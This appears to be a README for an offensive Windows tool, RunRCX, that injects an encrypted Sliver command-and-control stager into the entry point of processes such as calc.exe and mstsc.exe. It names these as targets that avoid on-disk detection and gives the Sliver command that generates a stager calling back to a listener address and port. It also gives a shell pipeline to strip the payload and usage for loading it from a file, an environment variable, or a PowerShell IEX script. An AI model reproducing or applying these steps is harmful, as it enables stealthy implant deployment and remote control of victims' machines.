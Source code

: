Payload is loaded into the actual entry point of the target process (calc.exe by default; must change in source code and recompile).

Target windows binaries that don't get flagged on disk:
------------------
C:\\Windows\\System32\\mstsc.exe
C:\\Windows\\System32\\calc.exe

Payload requirement:
-----
Payload must be stager from sliver. .Example:
```
generate stager --lhost 192.168.0.55 --lport 4444 --os windows -a amd64 -f csharp --save /path/hexfile.txt
```

Strip the output file so it looks like an array; no new line characters, no spaces:
```
cat hexfile.txt | tr -d ' ' | tr -d '\n' | sed -r 's/^.*\{//' | sed -r 's/\};$//'
```

Then the payload must be formated with AES_Encrypt_Byte_Buffer.exe.

I imagine there's some size restrictions here if using the env variable command below.

Usage:
---
Load from a file:
```
.\RunRCX.exe .\b64Output.txt 1
```

Load from variable:
```
.\RunRCX.exe $base64cdoe 2
```

Also can run getpayload.ps1 with IEX.